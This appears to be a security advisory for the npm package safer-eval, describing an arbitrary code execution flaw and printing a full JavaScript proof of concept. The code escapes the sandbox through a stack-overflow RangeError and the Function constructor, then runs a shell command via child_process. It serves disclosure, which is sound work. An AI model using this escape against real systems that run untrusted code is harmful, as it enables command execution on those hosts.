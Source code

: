 [safer-eval](https://www.npmjs.com/package/safer-eval) is a safer approach for eval in node and browser.

Affected versions of this package are vulnerable to Arbitrary Code Execution via generating a  `RangeError: Maximum call stack size exceeded`.

## Proof of Concept (Credit: Jonathan Leitschuh)
```
const theFunction = function () {
  const f = Buffer.prototype.write;
  const ft = {
    length: 10,
    utf8Write(){}
  };
  function r(i){
    var x = 0;
    try{
      x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
      return x;
    if(x!==i)
      return x+1;
    try{
      f.call(ft);
    }catch(e){
      return e;
    }
    return null;
  }
  var i=1;
  while(1){
    try{
      i=r(i).constructor.constructor("return process")();
      break;
    }catch(x){
      i++;
    }
  }
  return i.mainModule.require("child_process").execSync("id").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```
## References
-   [GitHub Advisory](https://github.com/commenthol/safer-eval/security/advisories/GHSA-v63x-xc9j-hhvq)
-   [Safer-Eval Sandbox Escape POC](https://gist.github.com/JLLeitschuh/609bb2efaff22ed84fe182cf574c023a)